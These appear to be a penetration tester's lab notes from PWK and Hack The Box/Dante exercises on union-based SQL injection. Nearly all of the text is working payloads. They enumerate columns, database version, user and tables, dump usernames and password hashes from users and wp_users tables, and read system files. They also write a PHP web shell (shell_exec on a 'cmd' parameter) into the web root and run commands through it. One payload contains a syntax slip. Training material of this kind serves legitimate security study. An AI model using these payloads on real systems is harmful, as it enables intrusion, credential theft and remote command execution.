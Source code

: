 #### PWK example
First get out error with single quote
`/debug.php?id='`
Then use "order by" to find all columns.  Keep increasing until you have an error!  If error occurs on 4, then you have 3 columns!
```
/debug.php?id=1 order by 1,2,3
```
Next, we use UNION to discover which columns are being displayed in the page:
```
/debug.php?id=1 union all select 1, 2, 3
```
![[Pasted image 20220508150047.png]]
We will target #3, as it seems to have the most space available.
```
/debug.php?id=1 union all select 1, 2, @@version
```
![[Pasted image 20220508150211.png]]
```
/debug.php?id=1 union all select 1, 2, user()
```
![[Pasted image 20220508150305.png]]
Enumerate DB tables and column structures:
```
/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```
![[Pasted image 20220508150552.png]]
Target users table and retrieve the column names:
```
/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```
![[Pasted image 20220508150718.png]]
Extract usernames and passwords:
```
/debug.php?id=1 union all select 1, username, password from users
```
![[Pasted image 20220508150839.png]]
#### Reading files
```
/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```
![[Pasted image 20220508151933.png]]
Notice when we have an error, we get the whole file path.
![[Pasted image 20220508152021.png]]
We can use this info to craft a malicious php file and place it into the root web directory.
```
/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
![[Pasted image 20220508152249.png]]
While we do get an error message, the file did get created and works just fine:
```
/backdoor.php?cmd=ipconfig
```
![[Pasted image 20220508152339.png]]
#### HTB control
https://0xdf.gitlab.io/2020/04/25/htb-control.html
Example from Dante:
```
http://172.16.1.12/blog/single.php?id='
```
The above threw an error:
>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
We append some known tricks to break out the syntax:
	* If nothing happens here, just continue on to UNION statements!
```
http://172.16.1.12/blog/single.php?id=' -- -
```
We then build up the UNION statement, starting at 1, until the web page renders properly again.  Also, we can see some of the numbers on screen, we can pick which entry is good for our details next.
```
' UNION select 1,2,3,4,5,6,7,8,9-- -
```
Find the version of MariaDB:
```
' UNION select 1,version(),3,4,5,6,7,8,9-- -
```
10.4.13-MariaDB
Retrieve Database name:
```
' UNION select 1,database(),3,4,5,6,7,8,9-- -
```
blog_admin_db
Current user:
```
' UNION select 1,user(),3,4,5,6,7,8,9-- -
```
datadir:
```
' UNION select 1,@@datadir,3,4,5,6,7,8,9-- -
```
List the tables
```SQL
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]
```
List the column names of the wp_users table
```SQL
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name'wp_users'#"]
```
Found users & passwords to dump.  Start with users
```SQL
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]
```
Then Passwords
```SQL
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]
```